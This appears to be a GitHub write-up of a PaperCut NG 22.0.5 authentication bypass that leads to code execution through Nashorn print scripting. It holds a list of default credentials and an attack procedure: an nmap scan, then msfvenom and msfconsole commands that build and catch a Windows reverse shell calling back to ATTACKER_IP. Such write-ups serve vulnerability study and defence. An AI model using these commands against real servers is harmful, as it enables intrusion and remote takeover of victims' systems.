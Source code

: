 # Description
- This vulnerability allows **remote attackers** to **bypass authentication** on affected installations of PaperCut NG 22.0.5 (Build 63914). 
- Authentication is not required to exploit this vulnerability. 
- The specific flaw exists within the **SetupCompleted** class. 
- The issue results from improper access control.
- An attacker can leverage this vulnerability to **bypass authentication** and **execute arbitrary code** in the context of SYSTEM.
  
# Background

**PaperCut** 
- A popular print management software organizations use worldwide to manage printing and copying services

**Session Variable Overloading (also known as Session Puzzling)**
- This vulnerability occurs when an application uses the same session variable for more than one purpose.
- An attacker can potentially access pages in an order unanticipated by the developers so that the session variable is set in one context and then used in another.

**Some default credential**
- `admin:admin`
- Apache Tomcat - Authenticate with `tomcat:s3cr3t`
- Jenkins - Authenticate with `jenkins:jenkins`
- Almost any WiFi router - Authenticate with `admin:admin`

**Nashorn**
- The Javascript engine included in Java.
- Javascript run by nashorn can call Java class directly
- Eg. `java.lang.Runtime.getRuntime().exec('ping 8.8.8.8')` run command on system.

# Impact
- PaperCut is widely used in the world
- The expoiltation is simple

# Root cause

- Navigate to `http://ip:port/app?service=page/SetupCompleted`
- Application call `homePage.performLogin(setupData.getAdminUserName(), LoginType.Admin, false);`
- This function make the current session become `admin`
- Then navigate to `Printer`, `Template printer`, `Scripting`, `Enable print script`.
- The Javascript here run by Nashorn. So attacker can call Java class to run system command directly.

# Attack procedure

- Normally, PaperCut open webserver on port 9191 (HTTP) and 9192/9195 (HTTPS).
    - `nmap -p 9191,9192,9195 ip:netmask`
- Host a server.
    - `python -m http.server 8080`
- Curl the payload to victim machine.
    - `msfvenom -p windows/shell/reverse_tcp -f exe LHOST=ATTACKER_IP LPORT=4444 -o shell.exe`
- Run payload.
    - `msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/shell/reverse_tcp; set LHOST ATTACKER_IP; set LPORT 4444; exploit"`
